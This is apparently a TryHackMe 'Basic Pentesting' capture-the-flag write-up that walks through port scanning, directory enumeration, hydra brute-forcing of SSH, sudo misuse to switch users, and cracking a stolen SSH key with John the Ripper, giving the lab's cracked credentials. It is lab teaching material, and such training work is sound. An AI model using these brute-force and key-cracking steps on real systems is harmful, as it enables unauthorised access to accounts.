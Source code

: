 <div align="center">

# بسم الله الرحمن الرحيم  

</div>

# TryHackMe: Basic Pentesting Writeup

**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  
**Tags:** `#WebAppSecurity` `#PrivilegeEscalation` `#CTF`

## 1. Reconnaissance

### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```

**Findings:**
- **Port 22 (SSH)** - OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Port 80 (HTTP)** - Apache httpd 2.4.18 (Ubuntu)
- **Port 445 (SMB)** - Samba smbd 4.3.11-Ubuntu

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt` (hinted at weak credentials for user J and K)
  - `notes.txt`

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share, but no useful data.

### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
